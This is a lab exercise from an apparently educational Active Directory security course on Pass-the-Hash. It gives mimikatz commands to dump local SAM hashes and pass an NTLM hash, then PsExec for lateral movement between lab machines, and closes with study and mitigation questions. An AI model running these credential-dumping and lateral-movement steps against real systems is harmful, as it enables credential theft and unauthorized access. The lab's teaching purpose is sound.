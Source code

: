 # Exercise 2 - NTLM (Pass-the-Hash)

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](http://live.sysinternals.com/)

## Exercise

In this exercise, we'll execute a Pass-the-Hash attack through the local Administrator account. Remember (see Lab Setup Guide) that we set the same local admin password on adsec-00 as well as on adsec-01. Therefore the NTLM hashes are the same on both computers.

Open a command prompt with admin rights (right-click "Run as Administrator") and start mimikatz.

```
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

Run the following commands inside mimikatz to extract the password hashes of the **local** user accounts.

```
privilege::debug
token::elevate
lsadump::sam
```

Next, we use the PTH-function in mimikatz to start a shell with the hash of the local admin account (RID 500).

```
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

Finally, connect to adsec-01 using psexec.

```
cd C:\attacker-tools
.\PsExec64.exe \\adsec-01 cmd
```

Make sure everything worked as expected

```
whoami
hostname
```

## Questions

- What is the purpose of the mimikatz commands "privilege::debug" and "token::elevate"? Why do you need to execute them?
- Log on to adsec-01 as Bruce Lee. Use what you learned above and help john to remotely extract Bruce Lees NTLM hash from memory. `Note:` "lsadump::sam" only dumps the local password database. You need to use a different command to extract data from memory.
- Do research on the internet on how to best mitigate pass-the-hash attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
- Is it possible (and feasible) to just disable NTLM at all? Explain your reasoning.
